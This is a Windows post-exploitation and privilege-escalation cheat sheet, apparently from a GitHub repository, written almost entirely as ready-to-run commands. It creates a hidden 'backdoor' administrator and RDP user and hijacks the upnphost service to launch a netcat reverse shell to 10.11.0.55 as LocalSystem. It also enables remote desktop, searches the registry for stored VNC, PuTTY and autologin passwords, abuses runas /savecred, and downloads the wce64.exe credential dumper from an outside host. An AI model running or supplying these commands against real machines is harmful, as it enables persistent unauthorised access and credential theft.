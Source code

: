
## Windows commands:

`whoami`

`systeminfo | findstr /B "OS"` 

`ipconfig /all`

`netstat -an`

`route print`

`net start`

`tasklist /V`

`net user`

`net user bob`

`net use`

`net share`

`net view`

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Check Administrators
`net localgroup Administrators`

### Get directory permission

`cacls Music`

or

`icacls Music`

`accesschk.exe -uwcqv "Authenticated Users" *`

`accesschk.exe /accepteula -uwdqs "Users" c:\`

` accesschk.exe -ucqv SSDPSRV`

This command shows which Windows services members of the Users group have write access to:

`accesschk users -cw \*`

`sc qc upnphost`

`sc config upnphost binpath= "C:\Inetpub\scripts\nc.exe 10.11.0.55 1234 -e C:\WINDOWS\System32\cmd.exe"`

`sc config upnphost obj= ".\LocalSystem" password= ""`

`sc qc upnphost`

### remove the dependency:

`$ sc config upnphost depend= ""`



windows service requires the executable to send back some feedback call within 30 seconds after a service had started. Or else, it will considered it as failed start attempt and terminate the service.

there are few workarounds on this, the easiest way is simply wrap your command in cmd.exe. i.e, cmd.exe /k <ur command>.

### RDP Enable

We can enable remote desktop from windows command line by running the following command:

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

`netsh firewall set service remoteadmin enable`

`netsh firewall set service remotedesktop enable`

`net start termservice`


reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 


### Look for password in registry

#### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

#### Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

#### SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

#### Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#### Search for password in registry
`reg query HKLM /f password /t REG_SZ /si`

`reg query HKCU /f password /t REG_SZ /s`

### runas
`runas /user:DOMAIN\user cmd.exe`

`runas /savecred /user:access\administrator "cmd /c type c:\users\administrator\desktop\root.txt > c:\users\security\y.txt"`


#### check files in directories

tree /f /a

#### File Download

powershell -command "& { (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/wce64.exe', 'c:\HFS\wce64.exe')}"

